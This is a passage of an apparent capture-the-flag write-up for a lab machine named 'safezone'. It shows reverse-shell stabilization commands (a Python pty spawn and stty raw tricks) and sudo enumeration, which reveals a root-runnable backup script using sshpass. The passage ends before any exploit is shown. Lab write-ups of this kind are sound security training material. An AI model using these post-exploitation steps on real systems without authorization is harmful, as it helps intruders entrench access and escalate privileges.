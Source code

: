We can now stabilize it again:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![Pasted image 20250519213957.png](../../IMAGES/Pasted%20image%2020250519213957.png)

If we check our privileges, we can check this:

```
yash@safezone:/opt$ sudo -l
Matching Defaults entries for yash on safezone:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR
    XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass

User yash may run the following commands on safezone:
    (root) NOPASSWD: /usr/bin/python3 /root/bk.py
```

We can run that script as root, let's use it first to check how it works:

```
yash@safezone:/opt$ sudo /usr/bin/python3 /root/bk.py
Enter filename:
Enter destination:
Enter Password:
Usage: sshpass [-f|-d|-p|-e] [-hV] command parameters
   -f filename   Take password to use from file
   -d number     Use number as file descriptor for getting password
   -p password   Provide password as argument (security unwise)
   -e            Password is passed as env-var "SSHPASS"
   With no parameters - password will be taken from stdin

   -P prompt     Which string should sshpass search for to detect a password prompt
   -v            Be verbose about what you're doing
   -h            Show help (this screen)
   -V            Print version information
At most one of -f, -d, -p or -e should be used
yash@safezone:/opt$
```
